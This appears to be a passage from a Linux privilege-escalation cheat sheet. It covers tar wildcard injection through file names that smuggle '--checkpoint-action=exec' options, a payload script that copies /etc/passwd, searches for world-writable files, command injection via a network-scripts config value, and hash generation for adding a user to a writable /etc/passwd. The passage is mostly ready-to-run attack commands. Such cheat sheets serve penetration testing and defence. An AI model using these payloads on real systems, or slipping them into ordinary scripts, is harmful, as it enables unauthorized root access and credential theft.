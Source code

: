 ## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```

Tool: [wildpwn](https://github.com/localh0t/wildpwn)

## Writable files

List world writable files on the system.

```powershell
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)

/etc/sysconfig/network-scripts/ifcfg-1337 for example

```powershell
NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337
```

src : [https://vulmon.com/exploitdetailsqidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

### Writable /etc/passwd

First generate a password with one of the following commands.

```powershell
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```
